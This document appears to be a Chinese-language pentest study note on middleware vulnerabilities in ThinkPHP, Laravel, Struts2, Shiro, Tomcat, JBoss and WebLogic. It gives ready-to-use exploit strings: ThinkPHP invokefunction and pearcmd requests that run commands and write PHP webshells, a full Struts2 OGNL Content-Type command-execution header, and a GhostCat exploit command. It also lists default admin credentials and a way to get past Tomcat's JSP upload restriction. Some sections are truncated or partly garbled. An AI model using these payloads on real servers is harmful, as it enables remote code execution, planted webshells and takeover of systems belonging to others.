







# 中间件漏洞

### ThinkPhp漏洞

> ThinkPhp`5.0.20`远程代码执行漏洞

- 漏洞`产生`:由于没有正确处理控制器名,导致网站没有开启强制路由的情况(即默认情况下)可以执行任意方法,从而导致`远程命令执行漏洞`
- 影响`版本`:`5.0.x < ThinkPhp 5.1.x < 5.1.31`


#### ThinkPhp`5.0.20`远程代码执行

- 报错查看`版本信息`

.

- 构造`payload`

- ```php
  ?s=/Index//think/app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
  ```


- 执行`系统命令`-->`whoami`

- ```php
  ?s=index/think/app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
  ```

  

- 写入`webshell`

- ```php
  ?s=/index//think/app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell5.php&vars[1][]=<?php @assert($_REQUEST['cmd']);echo "success";?>
  ```

  

- 使用`工具检测`


------

> ThinkPhp`6.0.12`文件包含漏洞

- 漏洞`产生`:当ThinkPhp开启了`多语言功能`时,攻击者可以通过`lang`参数和`目录穿越`实现`文件包含`,当存在其它扩展模块如`pear`扩展时,攻击者可进一步利用文件包含实现远程代码执行
- `限制`:该漏洞最大的限制点就是被包含文件的`后缀`一定是`php`,要包含一个php文件,利用的方式就少了,但我们可以利用`pearcmd`
- 影响`版本`:`6.0.1 < ThinkPhp < 6.0.13`

#### ThinkPhp`6.0.12`文件包含

- 写`webshell`

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval$_REQUEST['cmd']);?+/tmp/cmd.php
  ```

  

- 写`文件`-->shell.php

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
  ```

  

- 写`文件`-->shell123.php

- ```php
  ?lang=../../../../../../../../../tmp/shell123
  ```


- 写`webshell`

- ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST['cmd']);?>+/tmp/cmd.php
  ```


- 包含文件`连接shell`

- ```
  ?lang=../../../../../../../../../tmp/cmd&cmd=phpinfo();
  ```


- 连接`shell`


------

### Laravel漏洞

- 漏洞`原理`:当Laravel开启`Debug`模式时,由于其自带的`Ignition`组件对`flie_get_contents()`和`flie_put_contents()`函数的不安全使用,攻击者可以通过发送恶意请求,构造恶意log文件等方式触发`Phar`反序列化,最终造成`远程代码执行`

- 影响`版本`:Laravel < 8.4.2

- Laravel是一个由Taylor Otwell所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel使用了lgnition提供的错
  误页面，在lgnition 2.5.1及之前的版本中，有类似这样的代码:

  ```php
  $contents = file get contents($parameters['viewFile',); file put contents($parameters['viewfile”, $contents);
  ```

  攻击者可以通过phar://协议来执行反序列化操作，进而执行任意代码。

  


------

### Struts2漏洞

- 漏洞`产生`:在使用基于`jakarta`插件的文件上传功能时,有可能存在`远程命令执行`.用户可在上传文件时通过修改`http请求头`中的`Content-Type`值来触发该漏洞,执行系统命令
- 影响`版本`:`2.5 - 2.5.10` `2.3.5 - 2.3.31`

> 漏洞复现

```php
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```


### 判断strus2框架

- 常规办法:
  - 1、通过页面回显的错误消息来判断，页面不回显错误息时则无效。
  - 2、通过网页后缀来判断，如`.do.action`，有可能不准。
    3、判断` /struts/webconsole.html `是否存在来进行判淤需要 devMode 为 true。
- 其它的方法
  - 通过 actionErrors。要求是对应的 Action 需要继承自actionsupport 类。
  - 利用方法:如原始 URL为 https://threathunter.org/则检测所用的 URL为 https://threathunter.org/?actionErrors=1111
    uts2 构建的。异常包括但不限于以下几种现象如果返回的页面出现异常，则可以认定为目标是基于 St
    - 1、页面直接出现 404 或者 500 等错误。
    - 2、页面上输出了与业务有关错误消息，或者1111被回显到了页面上。
    - 3、贡面的内容结构发生了明显的改变。
    - 4、页面发生了重定向。

------


### Shiro漏洞

> Shiro550漏洞复现

- `Apache Shiro`框架提供了记住密码的功能(RememberMe)，用户登录成功后会生成经过加密并编码的cookie。在服务端对`rememberMe`的`cookie`值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
  那么，Payload产生的过程:
  命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
  在整个漏洞利用过程中，比较重要的是`AES加密`的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了.
- 影响`版本`:`Apache Shiro` < `1.2.4`
- 特征:返回包中会包含`rememberMe=deleteMe`字段,这种情况大多会发生在登录处，返回包里包含remeberMe=deleteMe字段，
  这个是在返回包中(Response),如果返回的数据包中没有remeberMe=deleteMe字段的话，可以在数据包中的Cookie中添加
  remeberMe=deleteMe字段这样也会在返回包中有这个字段


> Shiro721漏洞复现

- 在Shiro721漏洞中，由于Apache Shiro cookie中通过 AES-128-CBC 模式加密的rememberMe字段存在问题，用户可通
  过Padding Oracle Attack来构造恶意的rememberMe字段，并重新请求网站，进行反序列化攻击，最终导致任意代码执行
  虽然使用Padding Oracle Attack可以绕过密钥直接构造攻击密文，但是在进行攻击之前我们需要获取一个合法用户的
  Cookie.
- 漏洞流程
  登录网站获取合法Cookie
  使用rememberMe字段进行Padding Oracle Attack，获取intermediary
  利用intermediary构造出恶意的反序列化密文作为Cookie
  使用新的Cookie请求网站执行攻击
  影响版本
- Apache Shiro <= `1.4.1`
  特征判断
  响应包中包含字段remember=deleteMe字段


> Shiro721 和 Shiro550 的差异?
> Shiro721和Shiro550一样，都是生成恶意RememberMe Cookie反序列化执行代码，不同之处是RememberMe cookie的生成方式。
> shiro550 序列化利用需要知道AES加密的key，使用这个key直接构造Payload。
> Shiro721 序列化是利用已登录用户的合法RememberMe Cookie值，通过服务器对填充密钥的不同响应，从而判断加密值
> 是否被正确填充，构造Payload。

------

### Tomcat漏洞

#### tomcat任意文件写入漏洞*

> Tomcat任意文件写入

- Tomcat任意文件写入漏洞
- CVE-2017-12615
- 漏洞`产生`:当 Tomcat 启用了 HTTP PUT 请求方法(将 readonly 初始化参数由默认值设置为 false)，攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。
- 漏洞`危害`:可以通过PUT方法写webshel，从而控制服务器,
- 漏洞`检测`:通过访问:Http://localhost:8080，抓包后发起PUT请求，根据响应包为201即可确定存在该漏洞。

- `复现`:

  ```cmd
  直接利用PUT方法写webshel
  
  Webshell内容利用工具生成
  Tomcat默认不允许写isp文件后缀
  此处根据不同系统特性绕过
  Linux: jsp/
  Windows: jsp%20和jsp::$DATA
  ```

  ------

#### Tomcat远程部署漏洞

> Tomcat远程部署漏洞

- 漏洞`产生`:这是JSP/PHP网站远程部署的一个工具，管理员只需要远程上传一个WAR格式的文件，便可以发布到网站，方便了于发人员部署代码的同时，也方便了攻击者上传木马。
- 漏洞`危害`:攻击者可以通过构造war进行上传木马文件，从而控制服务器
- 漏洞检测:通过访问:ttp://localhost:8080/manager 管理地址，
  尝试`弱口令`或默认口令，若能登陆成功，则存在此漏洞。
- 漏洞`复现`过程:通过弱密码登录管理界面` tomcat/tomcat`


- 使用`弱口令`进入后台,上传`war包`(准备一个shell,将其压缩成.rar,改后缀为`.war`)

  


------


#### Tomcat任意文件读取漏洞*

> Tomcat任意文件读取

- CVE-2020-1938
- 漏洞`产生`:由于Tomcat在处理AJP请求时,未对请求做任何验证导致产生任意文件读取漏洞。
- CVE-2020-1938 又名GhostCat，由于Tomcat AJPt议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可件，例如可以读取 webapp 配置文件或源代码读取或包含 Tomcat 上所有 webapp 目录下的任意文信息。
- 漏洞`危害`:可以通过tomcat AJP协议读取文件，查看服务器敏感
- 漏洞`检测`:幽灵猫漏洞。通过工具扫描开放8009端口即存在CVE-2020-1938l

```php
python2 CVE-2020-1938.py 192.168.100.40 -p 13894 -f /WEB-INF/web.xml
```

------

### JBOS漏洞

> JBoss 5.x/6.x 反序列化漏洞

- 漏洞`编码`:CVE-2017-12149

- 漏洞描述:利用漏洞可在未经任何身份验证的服务器主机上执行任意代码，

- 漏洞`分析`:该漏洞为 Java反序列化错误类型，存在于 Jboss 的 Httplnvoker 组件中的 ReadOnlyAccessFilter 过滤器该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

- 漏洞复现:使用账号密码`admin vulhub`登录后台






------

### WebLogic

#### weblogic10 cve-2017漏洞复现

> weblogic10 cve-2017漏洞复现

- 端口`7001`







------

#### weblogic 远程部署漏洞

> 远程部署漏洞复现

- 默认账号密码`weblogic Oracle@123`







#### weblogic-cve-2023-21839*

> weblogic-cve-2023-21839

